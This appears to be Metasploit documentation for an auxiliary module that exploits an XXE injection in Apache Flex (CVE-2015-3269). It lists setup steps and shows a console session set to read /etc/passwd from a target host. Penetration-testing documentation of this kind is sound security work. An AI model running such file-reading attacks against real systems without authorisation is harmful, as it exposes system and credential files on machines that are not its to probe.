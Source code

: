 ## Description

This module exploits a vulnerabilty in Apache Flex. XXE Injection, CVE-2015-3269 

## Verification Steps

1. Do: ```use auxiliary/scanner/http/apacheflex_xxe```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do  ```set FILE [FILE] ``
4. Do: ```run```

## Scenarios

```
msf auxiliary(scanner/http/apacheflex_xxe) > set rport 8080
rport => 8080
msf auxiliary(scanner/http/apacheflex_xxe) > show options

Module options (auxiliary/scanner/http/apacheflex_xxe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   FILE     /etc/passwd      yes       File Acess
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.0.1      yes       The target address range or CIDR identifier
   RPORT    8080             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   THREADS  1                yes       The number of concurrent threads
   VHOST                     no        HTTP server virtual host

msf auxiliary(scanner/http/apacheflex_xxe) > run
```

